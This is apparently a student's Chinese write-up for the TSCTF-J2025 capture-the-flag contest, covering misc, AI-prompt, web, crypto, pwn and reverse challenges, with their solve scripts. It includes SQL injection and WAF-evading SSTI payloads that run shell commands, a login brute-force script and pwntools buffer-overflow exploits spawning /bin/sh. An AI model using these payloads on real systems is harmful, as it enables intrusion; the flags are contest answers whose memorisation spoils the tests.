

由于是用Word写的啦，还要转成markdown才能传上来，下面给出PDF版本的WP链接
TSCTF-J2025 WP
下面的内容与上面一致，但由于转换时的疏忽，可能会：多反斜杠/少反斜杠/多出莫名其妙的星号/多出莫名其妙的换行，请谅解！
最近会抽空对TSCTF-J2025进行复盘，敬请期待~
不知道为什么图片路径可能会炸掉，在最后面写了一个简易的修复代码，不能保证一定有用
如果图炸了的话请手动拼接URL，为
Abstract [ab] The Great

这题一开始也是没有思路的，后来放了很多提示，决定好好想一想。
首先看到提示2，要我们写出音名：
然后add（+）是一个很重要的提示，如果把ABCD……映射为1234……，那么音符就可以相加了，以第二个音为例：
$$F_{6} + C_{3} = I_{9}$$
由此，我们可以得出两个单词：EINSTEIN EQUATION，再结合提示1，应当以Latex形式写出爱因斯坦方程，故flag为
TSCTF-J{E=mc^2}
Misc [misc] Meow 这题一开始没思路，后面做了几题才回来的，因为一眼丁真看到了”vfnd”（”TSC”的base64是”VFND”）
虽然全是Meow，但是根据程序格式，可以猜出：
所以最后输出的是：
结合vfnd，猜测这是大小写反转的base64，进行解码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 In [1]: import base64 In [2]: t = 'vfndveyTsNSkmv9bBq==xZrFq2fux01LB3Dnztb3iseHFq==' In [3]: import string In [4]: t = t.translate(str.maketrans(string.ascii_uppercase+string.ascii_lowercase, string.ascii_lowercase+string.ascii_uppercase)) In [5]: base64.b64decode(t) Out[5]: b'TSCTF-J{\n1_Am' In [6]: base64.b64decode(t.split('==', 1)[1]) Out[6]: b'_4_CaT_MeowMe0w!!!}'
最后把换行符去掉，就得到了flag
TSCTF-J{1_Am_4_CaT_MeowMe0w!!!}
[misc] 卢森堡的秘密 拿到zip和png，先进行binwalk和pngcheck，没有发现异常，考虑LSB，找到一个在线网站：https://georgeom.net/StegOnline/upload
找到flag
TSCTF-J{Th3_sEcre7_0f_L$B!}
[misc] BadFile 先强烈推荐一个Windows开源软件https://github.com/QL-Win/QuickLook ，把苹果的QuickLook功能在Windows上复刻了，特别方便！按空格后还可以按上下键翻动
先看txt
经过翻找，发现好像几段泄露文本都有数字？那就启动grep
完美！
下面看wav
经过翻找，发现几段泄露音频都比较长，于是通过时长降序排列，发现前四都是
那……还有一段呢？只好慢慢翻了
翻了好久终于找到了！居然只有1秒？？
“我的家在北京市朝阳区”……懂了，马上去线下真实你🤬
最后是pdf
经过翻找，发现恶意文件会弹窗，由于没有想到好的方法，一一查找
最后合成flag
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 In [1]: pdf = list(sorted('''8YmxZRca.pdf ...: mFU1SdVp.pdf ...: w9V1ZDEd.pdf ...: xdBqKtxe.pdf ...: Z8P4DHre.pdf'''.split('\n'))) In [2]: txt = list(sorted('''3WQlwSaj.txt ...: dubZ3AZn.txt ...: nhlbNxGL.txt ...: qtFyaGkZ.txt ...: wlBUCOeg.txt'''.split('\n'))) In [3]: wav = list(sorted('''2JuiKL42.wav ...: 4UjLqeRF.wav ...: Ew24ldS2.wav ...: HjRtD6f3.wav ...: RtUwEgj1.wav'''.split('\n'))) In [4]: '_'.join(['_'.join(l) for l in [txt, wav, pdf]]) Out[4]: '3WQlwSaj.txt_dubZ3AZn.txt_nhlbNxGL.txt_qtFyaGkZ.txt_wlBUCOeg.txt_2JuiKL42.wav_4UjLqeRF.wav_Ew24ldS2.wav_HjRtD6f3.wav_RtUwEgj1.wav_8YmxZRca.pdf_Z8P4DHre.pdf_mFU1SdVp.pdf_w9V1ZDEd.pdf_xdBqKtxe.pdf' In [5]: import hashlib In [6]: hashlib.md5(_.encode()).hexdigest() Out[6]: '0b4a2a6431f6b94b3c1d3d50d0a45aea'
TSCTF-J{0b4a2a6431f6b94b3c1d3d50d0a45aea}
[misc] PyJail （半成品）
拿到代码，发现globals受限，AST不允许访问”__“开头的属性。
一开始打算用反射获得完整环境：（这里157是os._wrap_close的index，以实际情况为准）
1 '' .__class__.__mro__[1 ].__subclasses__()[157 ].__init__.__globals__
那么就需要绕过”__“，使用Unicode绕过
1 '' ._＿class__._＿mro__[1 ]._＿subclasses__()[157 ]._＿init__._＿globals__
但是此举触发了import钩子，失败，接下来考虑栈帧逃逸
1 print (g:=[*(q:=(q.gi_frame.f_back.f_back.f_globals for _ in [1 ]))][0 ])
成功获得globals，但是接下来就没有思路了：
os.system/popen、subprocess都被ban了
_posixsubprocess不在sys.modules里，也无法被__loader__加载
写WP的时候突然想到会不会在环境变量里，确认了一下，也没有
PLACEHOLDER{TA5K_F4ILED}
AI [ai] Coup 拿到题目还不知道是干什么的，看AI玩了一局才明白：我们要给代表我们的AI玩家写prompt，来指导它赢得比赛，下面给出我的提示词：
1 2 You are a good Coup Game Player, your aim is to earn a lot money then to coup the other player to death while keep you alive
经过测试，一遍拿到flag，但是仍有改进的余地，AI明显把赚钱放在了第一位，只有到10+才会被迫coup别人，可以强调一下两个任务的优先级。
flag是什么来着？不记得了！😰
PLACEHOLDER{I_forg0t_mY_fl@g}
[ai] JustReverse （失败）
根据给出的模型和参数，进行反向求解，但是哪里似乎写错了/不够精确，没有求出flag，代码附在最后。
（你总不能跟我讲这个就是flag吧）
PLACEHOLDER{T4SK_FA1L3D}
Web [web] EZ_Login（签到） 一个登录界面，先尝试SQL注入，发现貌似没有注入点。
下面采取爆破，因为有验证码，但好像只要有某一次的session就提交对应的验证码就好了，下面的脚本还是模拟了登录全流程，并且加了连接中断的处理
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 import requestsimport redef crack (pwd ): s = requests.Session() cookies = { } headers = { } response = s.get('http://127.0.0.1:54655/login' , cookies=cookies, headers=headers) data = { 'username' : 'admin' , 'password' : pwd, 'captcha' : '' .join(re.findall(r'(?<=captcha_images/)\d(?=\.png)' , response.text)) } response = s.post( 'http://127.0.0.1:54655/login' , cookies=cookies, headers=headers, data=data, ) print (re.findall(f'>.*?错误.*?<' , response.text)) return '错误' not in response.text for i, pwd in enumerate (open ('D:/PiYuanZhouLv/rockyou.txt' )): pwd = pwd.strip() if not pwd.startswith('s' ): continue print (i, pwd) while True : try : if crack(pwd): print ("THE PASSWORD IS" , pwd) exit() except : import time print ('Have a rest!' ) time.sleep(10 ) else : break
部分代码由https://curlconverter.com/ 生成
运行，得到密码”simple”，尝试登录，提示”非本地管理员”
由于wsrx，我们的请求的Referer/Origin都是本地地址（就算wsrx会改那我们也无法控制），所以应该是X-Forwarded-For请求头，复制到HTTPie（或者你的请求软件），将X-Forwarded-For改为127.0.0.1
显示登陆成功，但是……我flag呢？！
在这里卡了，直到后面伪造session的时候才知道这个token是有数据的，上https://www.jwt.io/ 看看
看到flag了！
TSCTF-J{w31c0m3_70_7h3_w38_j0urn3y}
[web] EZ_SQL 上来先用通用密码 ' or 1=1 #
看到一大堆垃圾数据，和一个fleg（
好了，下面就是union注入的时候了
列数为三的时候没有报错，说明回显列为3
查表名：
1 2 ' union select 1, 2, (select group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()) #
发现flag这个表很有可能是我们的目标，查列名：
1 2 ' union select 1, 2, (select group_concat(column_name) FROM information_schema.columns WHERE table_name=' flag') #
最后查flag
1 ' union select 1, 2, (select flag from flag) #
诶诶，怎么炸了！经过搜索，发现是编码不一致导致的，所以
1 ' union select 1, 2, (select convert(flag using utf8) from flag) #
TSCTF-J{sql_1nj3ct10n_m4573r}
[web] EZ_PY 上来先试注入什么的，无果，突然发现网页中的一行注释
访问/source，获得源码
一个SSTI注入点，但是要admin的session，而且有waf
一段熟悉的套路代码（上周0xGame考了），可以原型链污染
所以，我们通过/register进行原型链污染，把app.config['SECRET_KEY']改成一个已知值，然后伪造session，进行SSTI注入，获得flag
下面开始：
原型链污染
session伪造+SSTI
session伪造可以直接去前面提到的jwt.io上构造，现在就是SSTI和绕WAF了。
首先，注入符号被ban了，但是有hello hacker最后被替换
然后把SSTI注入的关键词都ban的差不都了，但！是！下面那些过滤JavaScript的代码就有用了！比如__class__就可以写成__cljavascript: ass__，不过为了过滤flask.g，它把所有带g的都！ban！掉！了！所以通过subclasses找到os._wrap_close再.__init__.__g lobals__的路就GG了。虽然没办法直接拿到os，但是我们可以拿到__import__，然后.popen().read()就ok啦~
1 hello ''.__clajavascript:ss__.__mrjavascript:o__[1].__subcljavascript:asses__()[141].__injavascript:it__.__builjavascript:tins__['__impjavascript:ort__']('ojavascript:s').popjavascript:en('cat /flag').rejavascript:ad() hacker
不对不对，flag 还有一个g，改成fla?使用通配符就好了
ok，拿到flag~
TSCTF-J{y0u_c0mp1373d_7h3_py_pr0813m}
Crypto [crypto] Cantor's gifts 题目给出的hint是打乱后的某数后有多少个数比它小与阶乘相乘之和，所以先提取出复合前的这个数，再恢复乱序数列，最后恢复flag。
一开始是通过模从小阶乘开始算的，不知道为什么不对，最后是从大阶乘整除恢复的，上代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 hint = 2498752981111460725490082182453813672840574 hint2 = b'5__r0tfg5f_34rtm__t_0ury0hft0t3n11c_t' n = len (hint2) import functools@functools.cache def f (n ): if n <= 1 : return 1 return n * f(n-1 ) renum = [] for i in range (n-1 ): h = hint - sum ([rn*f(n-1 -j) for j, rn in enumerate (renum)]) rn = h // f(n-i-1 ) renum.append(rn) renum = renum[::-1 ] print (renum)rebuilt = [1 , 0 ] if renum.pop(0 ) else [0 , 1 ] for rn in renum: nums = list (sorted (rebuilt)) if rn == 0 : rebuilt = [nums[0 ]-1 ] + rebuilt elif rn == len (nums): rebuilt = [nums[-1 ]+1 ] + rebuilt else : rebuilt = [(nums[rn-1 ]+nums[rn])/2 ] + rebuilt mp = {num: std for std, num in enumerate (sorted (rebuilt))} rebuilt = [mp[num] for num in rebuilt] print (rebuilt)msg = bytearray (hint2) for i, c in zip (rebuilt, hint2): msg[i] = c print (msg)
得到flag
TSCTF-J{c4nt0r5_g1ft_f0r_th3_f1r5t_y0u_t0_m3t}
[crypto] Sign in 很简单，考察异或的性质：$P\bigoplus Q\bigoplus P = (P\bigoplus P)\bigoplus Q = Q$
给出代码：
1 2 3 4 5 6 7 import base64, functoolsbase64.b64decode(bytes .fromhex(hex (functools.reduce(lambda x, y: x^y, map (lambda z: int (z, 16 ),['a6c8b6733c9b22de7bc0253266a3867df55acde8635e19c73313c1819383df93' , '11abed33a76d7be822ab718422844e1d40d72a96f02a288aa3b168165922138f' ,'e1251504cdb300420a0520fc1c15b010d4bfb118c2477b78f3eafbe1acf0f121' ])))[2 :]))
TSCTF-J{I_like_Crypto}
[crypto] p=~q 与TSCTF-J2024 ezRSA的part3类似，p、q的特殊关系可以改写为p^q的值，然后就可以剪枝。之前ezRSA的时候自己写的程序就炸了，所以核心部分是从网上不记得哪个地方抄的了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 n = 17051407421191257766878232954687995776275810092183184400406052880776283989210979642731778073370935322411364098277851627904479300390445258684605069414401583042318910193017463817007183769745191345053634189302047446965986220310713141272104307300803560476507359063543147558286276881771260972717080160544078251002420560031692800880310702557545555020333582797788637377901506395695115351043959528307703535156759957098992921231240480724115372547821536358993064005667175508572424424498140029596238691489470392031290179060300593482514446687661068760457021164559923920591924277937814270216802997593891640228684835585559706493543 c = 6853848340403815994585475502319517119889957571722212403728096345969080424626781659085329098693249503884838912886399198433606071464349852827030377680456139046436386063565577131001152891176064224036780277315958771309063181054101040906120879494157473100295607616604515810676954786850526056316144848921849017030095717895244910724234927693999607754055953250981051858498499963202512464388765761597435963200846457903991924487952495202449073962133164877330289865956477568456497103568127103331224273528931042804794039714404647322385366048042459109584024130199496106946124782839099804356052016687352504438568019898976023369460 def get_pq (n, x ): a = [0 ] b = [0 ] maskx = 1 maskn = 2 for i in range (1024 ): xbit = (x & maskx) >> i nbit = n % maskn t_a = [] t_b = [] for j in range (len (a)): for aa in range (2 ): for bb in range (2 ): if aa ^ bb == xbit: tmp2 = n % maskn tmp1 = (aa * maskn // 2 + a[j]) * (bb * maskn // 2 + b[j]) % maskn if tmp1 == tmp2: t_a.append(aa * maskn // 2 + a[j]) t_b.append(bb * maskn // 2 + b[j]) maskx *= 2 maskn *= 2 a = t_a b = t_b for a1, b1 in zip (a, b): if a1 * b1 == n: return a1, b1 p, q = get_pq(n, int ('1' *1022 +'0' , 2 )) phi = (p-1 )*(q-1 ) d = pow (0x10001 , -1 , phi) from Crypto.Util.number import long_to_bytesprint (long_to_bytes(pow (c, d, n)))
TSCTF-J{The_easiest_RSA_key!}
[crypto] 野狐禅 考察了Paillier加密体系，此处取$g = n + 1$
先看加密逻辑：
$$
由于n、r都知道，所以
$$m = \frac{\frac{c}{r^{n}} - 1}{n}\ mod\ n^{2}$$
可以直接解密（一开始走歪了，想到同态去了），由于懒了一下，是AI生成的：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 from Crypto.Util.number import long_to_bytesfrom sympy import Matrixdef main (): with open ("challenge.txt" , "r" ) as f: lines = f.readlines() n = int (lines[0 ].split(": " )[1 ]) g = int (lines[1 ].split(": " )[1 ]) k = int (lines[2 ].split(": " )[1 ]) eqs = int (lines[3 ].split(": " )[1 ]) ciphertexts = [] for i in range (4 , 4 + 2 * k): ciphertexts.append(int (lines[i].strip())) raws = [] for i in range (4 + 2 * k, 4 + 4 * k): raws.append(int (lines[i].strip())) n2 = n * n y_list = [] for i in range (2 * k): c = ciphertexts[i] raw_val = raws[i] r = raw_val % n r_n = pow (r, n, n2) inv_r_n = pow (r_n, -1 , n2) temp = (c * inv_r_n) % n2 m_val = (temp - 1 ) // n y_list.append(m_val) A = [] b = [] for i in range (k): b.append(y_list[k + i]) row = [] for j in range (k): row.append(y_list[k + i - 1 - j]) A.append(row) A_mat = Matrix(A) b_mat = Matrix(b) try : x = A_mat.solve(b_mat) except ValueError: print ("Matrix is not invertible" ) return coeffs = [] for i in range (k): val = x[i] if val.is_Integer: coeffs.append(int (val)) else : coeffs.append(round (float (val))) for c in coeffs: if c not in [0 , 1 , 2 ]: print (f"Warning: coefficient {c} is not in [0,1,2]" ) num = 0 for i in range (k): num += coeffs[i] * (3 ** i) flag = long_to_bytes(num) print (flag.decode()) if __name__ == "__main__" : main()
TSCTF-J{We_sh0u1d_kn0w!}
Pwn [pwn] ret 先静态分析，发现一个无限溢出和一个后门函数，直接上exp
1 2 3 4 5 6 7 8 9 10 from pwn import *io = connect('127.0.0.1' , 41541 ) bkd = 0x400676 ret = 0x400501 io.sendafter(b'n!' , cyclic(0x10 +8 )+p64(ret)+p64(bkd)) io.interactive()
TSCTF-J{weLC0ME_to-TH3-WORld_Of-6INaRY-vuLNER@BIlItY0}
[pwn] pop （半成品）
静态分析，依然是一个无限溢出，但是连system都没有，考虑ret2libc
漏地址
发现vuln函数有一部分可以利用，可以先用gadget把puts的got传给rdi，接下来跳0x400633，然后获得puts地址和下一次溢出机会
执行system("/bin/sh")
接下来有了libc，就可以算出system的地址，也可以找到/bin/sh的字符串，然后就可以getshell啦~
但是，问题来了，由于vuln的返回方式是leave
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 from pwn import *context(arch='amd64' , os='linux' , log_level='debug' ) puts_got = 0x601018 leak_addr = 0x400633 edi_ret = 0x400713 ret_only = 0x4004c9 rbp = 0x601090 io = gdb.debug('./pwn' ) libc = ELF('libc-2.23.so' ) io.sendafter(b'time!\n' , cyclic(0x10 )+p64(rbp)+p64(edi_ret)+p64(puts_got)+p64(leak_addr)+b'\n' ) puts_real = u64(io.recv(8 )[:-1 ].ljust(8 , b'0' )) log.debug(f'puts addr: {hex (puts_real)} ' ) libc_to_real = lambda x: x - libc.sym['puts' ] + puts_real log.debug(f'Libc base: {hex (libc_to_real(0 ))} ' ) system_real = libc_to_real(libc.sym['system' ]) bin_sh_real = libc_to_real(next (libc.search(b'/bin/sh' ))) io.send(cyclic(0x10 )+p64(rbp)+p64(edi_ret)+p64(bin_sh_real)+p64(ret_only)+p64(system_real)+b'\n' ) io.interactive()
PLACEHOLDER{I_d0nt_kNovv}
对了，因为卡这题了，所以后面的pwn都没有看了
Reverse [re] Singin 先静态分析（下面一些函数是我自己命名的）
首先，看到核心逻辑，Buf2是目标，Buf1是加密输出，进do_something看看
这里是一个异或加密，进b64e
一个”标准”的base64，但是有一个奇怪的函数，进change_charset
啊哈！这里把标准的字符集改掉了！所以这是一个自定义的base64，下面提取相关数据，因为我比较懒，就运行提取一下啦~
↑Buf2的值
变换后的key
上代码：
1 2 3 4 5 buf2 = [0x23 ,0x7C ,0x34 ,0x61 ,0x32 ,0x2 ,0x13 ,0x3D ,0x67 ,0x12 ,0x64 ,0xD ,0x37 ,0x2 ,0x34 ,0x14 ,0x3 ,0x7A ,0x2B ,0x69 ,0x24 ,0x70 ,0x34 ,0x61 ,0x32 ,0x70 ,0x6B ,0x76 ,0x2 ,0x42 ,0x28 ] key = 'w/w5t/YF0wUnwoQKwJt=' print ('' .join([chr (c^ord (key[i%len (key)])) for i, c in enumerate (buf2)]))
TSCTF-J{We1c@me_t0_TS_CTF_2025}
[re] 听绿的秘密 看了题目描述，还以为是苹果逆向，吓死了
这道题考的是Java的自定义加载class
先用Jadx打开，发现自定义加载了一个类，而主逻辑很可能就在这个类里面，所以第一步是恢复Secret类
看到上面的CustomClassLoader的定义
解密操作是给原文件里面的字节减7，先提取Secret.obf，下面用python完成解密
1 open ('Secret.class' , 'wb' ).write(bytes ((v - 7 )%256 for v in open ('Secret.obf' , 'rb' ).read()))
接下来就用jadx打开还原的Secret.class，就能看到图片加密的逻辑了，然后就是解密图片
下面给出解密脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 content = open ('Where_is_my_cat.png' , 'rb' ).read() cat = bytearray (content) i2 = 123 for i3 in range (len (content)): i7 = content[i3] i = i7 i5 = (i3+i2)%8 if i5: i6 = ((i>>i5)|(i<<(8 -i5))) & 255 else : i6 = i i4 = (i6 - i2 - i3 % 251 ) % 256 i2 = (i2 + i7 + 37 ) & 255 cat[i3] = i4 open ('Cat.png' , 'wb' ).write(cat)
获得flag
TSCTF-J{181_c3ntimeTer5?}
[re] CryDancing 苹果逆向终究还是来了吗……
上次在哪里的ipa逆向连可执行文件都没找到😅，这次总算找到了，先静态分析
从strings里面找到可能相关的字符串，进到了核心逻辑，大概就是把输入（obj）进行加密（YouCanSeeThisRight），然后与目标字符串对比，下面进到加密函数
这里先执行GetKey函数，然后把它重复四遍作为下面CCCrypt的密钥，经过搜索，这个应该是AES，用的是CBC模式，iv是375（小端），然后进到GetKey函数
反编出来的代码奇奇怪怪的，不过关键的是：这个函数返回四个大写字母，并且返回值的MD5是已知的，所以直接爆破
1 hashcat -a 3 -m 0 674040176a34f6c994003fe85badfc48 ?u?u?u?u
得到返回值：NOTD，也就是说，key就是NOTDNOTDNOTDNOTD
下面用python恢复flag
1 2 3 4 5 6 7 import base64from Crypto.Cipher import AEScipher = AES.new(b'NOTDNOTDNOTDNOTD' , AES.MODE_CBC, iv=(375 ).to_bytes(16 , 'little' )) print (cipher.decrypt(base64.b64decode('bvOaEEh1F5pDkMpM6n5src+Jym4ineiRvbWRIidoLHD1KGuRk8vyRsDpQ4XGYtNKnQDvFBEnG3DsCDGqJ8Xv8g==' )))
得到flag
TSCTF-J{S0rry_th3_4nswer_h4s_n0thing_2_do_with_l7rics}
[re] 哭泣之子 这是什么新型的阴乐播放器吗（突然想起来传说中的O泡果奶病毒）
拿到附件，发现这是一个.Net程序，用dnSpy打开，没有发现加密逻辑，然后就进行调试
在输出里发现了一行报错：找不到文件flag，那就肯定是核心逻辑了，在对应异常上下断点（调试->窗口->异常设置）
之后成功停下，再沿着调用堆栈往回翻，发现加密逻辑
接下来就是解密啦~
因为这个不好直接解密（实际上也无法直接解密），所以使用z3求解，下面给出代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 import z3array3 = [871 , 1654 , 789 , 1617 , 1221 , 2173 , 871 , 1724 , 629 , 1111 , 789 , 1664 , 783 , 1579 , 989 , 1633 , 1229 , 2148 , 891 , 1703 , 1237 , 2249 , 1229 ,2161 , 1157 , 2095 , 1237 , 2201 , 1243 , 2166 , 789 , 1604 , 941 , 1669 , 813 ,1651 , 845 , 1633 , 807 , 1645 , 941 , 1673 , 971 , 1863 , 941 , 1648 , 789 , 1620 ,941 , 1659 , 1255 , 2157 , 1167 , 2121 , 941 , 1647 , 807 , 1662 , 845 , 1634 ,1243 , 2165 , 813 , 1650 , 941 , 1676 , 813 , 1697 , 783 , 1589 , 941 , 1654 , 1167 ,2097 , 1255 , 2157 , 941 , 1673 , 789 , 1597 , 941 , 1655 , 941 , 1653 , 813 , 1673 ,789 , 1598 , 891 , 1735 , 941 , 1600 , 629 , 1076 , 891 , 1728 , 603 , 1008 , 389 ,827 ]a3o = array3[:] for k in range (0 , 99 , 2 ): solver = z3.Solver() a2k, a2kp1 = z3.BitVecs('a2k a2kp1' , 32 ) solver.add(a2k<=125 ) solver.add(a2kp1<=125 ) solver.add(a2k>=32 ) solver.add(a2kp1>=32 ) num = a2k << 3 ^ 83 a2kn = (num + a2k ^ a2k + 72 ) a2kp1n = a2kn + (num ^ a2kp1) solver.add(a2kn == array3[k]) solver.add(a2kp1n == array3[k+1 ]) assert solver.check() == z3.sat array3[k] = solver.model()[a2k].as_long() array3[k+1 ] = solver.model()[a2kp1].as_long() print (bytes (array3))
当然，在没有提示之前，我写的范围是[0, 256)，解出来的flag长这样：
里正确答案只剩下两个字符（即一个方程组）了，当时太晚了，没有再想想就睡觉了，早上看到提示后就解出来了
正确flag：
flag{3f619a0b_Would_you_say_that_someone_who_had_every_intention_to_be_brave_was_a_coward?_81dd64f3}
注：判断完正误是有回显的，程序会修改NAudio.Midi.dll的前几字节
又注：一开始把注意力放到提取阴乐的地方去了，发现还有一张png图片内嵌了（其实就是应用的图标），在这里放出来，吓💩你们（bushi
[re] Catbits 编程猫逆向？什么玩意儿（丢）
其实这道题没那么难，只是逻辑不太好找而已，真正逆向很简单
考虑到大家可能都没有学过编程猫（其实我也没学过），从配置环境开始
安装Scratch
一般情况我都是在官网下安装包的，奈何官网被ban了，那就从Microsoft Store凑合一下吧
打开项目
启动程序，然后”文件”->“从电脑中打开”
查看代码逻辑
额……这有加密逻辑？输入都没找到啊，不会被隐藏了吧……
如果你有这种想法，那就和我掉进一个坑里了
我们可以看看.sb3（本质是.zip）里面的project.json，你其实会发现：它的代码是按人物存储的！比如下图，上面的blocks里面存储的就是”角色1”的代码，下面的blocks则是”角色3”的。那我们怎么看其他代码呢？
没错，在右边选其他角色就好了
（没错，就是这么简单粗暴）
接下来就是还原代码逻辑了，不过可能确实有一段逻辑（orc->arc），通过简单测试，可以恢复，下面是用python重写的逻辑（有一些太啰嗦了，直接改写了，原逻辑被注释了）：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 src = [211 , 717 , 210 , 132 , 193 , 114 , 244 , 208 , 213 , 99 , 37 , 214 , 224 , 101 , 98 , 212 , 224 , 118 ] orc = [] arc = [] index = 1 end = 0 while end != 1 : answer = input () if answer == '#' : end = 1 else : orc.append(answer) index += 1 arc = [114 ] + [ord (c)+1 for c in orc] yindex = 1 while yindex <= len (arc) +1 : def Bravo (Amy ): global iNdex iNdex = yindex ij = arc[iNdex-1 ] kl = ij + Amy if kl > 255 : mn = kl-255 else : mn = kl return mn arc[iNdex-1 ] = Bravo(yindex) yindex += 1 yindex = 2 while yindex <= len (arc) +1 : def Charlie (Alice, Bob ): return Alice ^ Bob arc[yindex-1 ] = Charlie(arc[yindex-1 ], arc[yindex-2 ]) yindex += 1 yindex = 1 while yindex <= len (arc) +1 : tmp = arc[yindex-1 ] arc[yindex-1 ] = (tmp>>4 )|((tmp&0xf )<<4 ) yindex += 1 yindex = 2 while yindex <= len (arc) +1 : def Hotel (Lock ): if arc[Lock-1 ] != src[Lock-2 ]: exit(-1 ) if len (src) != len (arc)-1 : exit(-1 ) else : Hotel(yindex) print ('FLAG:' , '' .join(arc))
大致加密过程是：转序号、值加编号、前后异或、交换高低位
所以给出解密代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 src0 = [211 , 71 , 210 , 132 , 193 , 114 , 244 , 208 , 213 , 99 , 37 , 214 , 224 , 101 , 98 , 212 , 224 , 118 ] src = [114 ]+[(v>>4 )|((v&0xf )<<4 ) for v in src0] dst = [] while len (src) > 1 : num = src.pop() dst.append(num^src[-1 ]) dst = src + dst[::-1 ] ori = [(c-i-1 -1 )%255 for i, c in enumerate (dst)] print (bytes (ori))
TSCTF-J{LET_M3_8E_W1TH_Y0U}
【附】JustReverse的代码（失败品）： 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 import numpy as npn = 58 import torchimport torch.nn as nnclass Net (nn.Module): def __init__ (self ): super (Net, self ).__init__() self .linear = nn.Linear(n, n*n) self .conv1=nn.Conv2d(1 , 1 , (2 , 2 ), stride=2 ) self .conv2=nn.Conv2d(1 , 1 , (1 , 1 ), stride=1 ) self .conv3=nn.Conv2d(1 , 1 , (2 , 2 ), stride=1 , padding=1 ) self .relu=nn.ReLU() def forward (self, x ): x = x.view(1 , 1 , 2 , 2 *n) x = self .conv1(x) x = self .relu(x) x = self .conv2(x) x = x.view(n) x = self .linear(x) x = x.view(1 , 1 , n, n) x = self .conv3(x) return x mynet=Net() mynet.load_state_dict(torch.load('model.pth' )) out = list (map (lambda line: list (map (float , line.split(' ' ))), open ('ciphertext.txt' ).readlines())) out = np.array(out) out -= mynet.conv3.bias.detach().numpy() def reverse_conv (kernel, after, before_size ): last_line = [0 ] + [0 ] * before_size + [0 ] before = [] for i in range (before_size): line = [0 ] for j in range (before_size): line.append((after[i][j] - kernel[0 ][0 ] * last_line[j] - kernel[0 ][1 ] * last_line[j+1 ] - kernel[1 ][0 ] * 0 )/kernel[1 ][1 ]) last_line = line + [0 ] before.append(line[1 :]) return before outl = reverse_conv(mynet.conv3.weight.detach().numpy().reshape((2 , 2 )).tolist(), out.tolist(), n) lb = mynet.linear.bias.detach().numpy() lw = mynet.linear.weight.detach().numpy() out2 = np.linalg.inv(lw.T @ lw) @ (lw.T @ (np.array(outl).reshape((-1 )) - lb)) out1 = (out2 - mynet.conv2.bias.detach().numpy()) / mynet.conv2.weight.detach().numpy() w1 = mynet.conv1.weight.detach().numpy() b1 = mynet.conv1.bias.detach().numpy() ori = (out1 - b1).reshape((-1 )) print (ori)ajust = [round (i) for i in ori.tolist()] print (ajust)b = sum ([[i&1 , (i&2 )//2 ] for i in ajust], []) + sum ([[(i&4 )//4 , (i&8 )//8 ] for i in ajust], []) for i in range (0 , len (b), 8 ): print (chr (int ('' .join(map (str , b[i:i+8 ])), base=2 )), end='' , flush=True )


 （p对应114）
（p对应114）